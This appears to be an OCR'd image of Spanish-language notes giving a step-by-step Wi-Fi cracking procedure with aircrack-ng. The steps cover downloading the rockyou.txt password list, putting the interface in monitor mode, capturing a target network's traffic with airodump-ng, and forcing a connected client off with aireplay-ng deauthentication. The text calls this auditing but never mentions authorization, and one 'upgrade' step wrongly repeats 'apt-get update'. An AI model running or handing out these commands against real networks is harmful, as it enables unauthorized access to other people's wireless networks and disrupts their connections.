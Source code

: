 Habilitar el usuario root
    sudo su

actualización de los paquetes en los repositorios del sistema
    apt-get update

Corremos el upgrade de los paquetes en el sistema
    apt-get update


Herramienta para auditar redes
sudo apt install aircrack-ng

aircrack.ng 
Obtener un diccionario de claves rockyou.txt es de buena calidad
https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt&ved=2ahUKEwiRsJD3-riKAxWhp5UCHVbWOOMQFnoECAoQAQ&usg=AOvVaw3snAERl1mU6Ccr4WFEazBd

Poder conocer valores de red
ifconfig

Obtenemos el nombre de red y con el siguiente comando ponemos nuestra red en modo monitor
airmon-ng start nombre_red

Obtener el nombre de todas las redes disponibles
airodump-ng nombre_redmon

Una vez obtenida el nombre de red a auditar, copiamos BSSID y el numero de canal que ocupa
airodump-ng -c numero_canal --bssid clave-BSSID -w nombre_auditoria nombre_redmon

Obtenemos clave-BSSID de la señal y de una estacion que este ocupandola
aireplay-ng -0 9 -a clave-BSSID -c clave-BSSID_station nombre_redmon
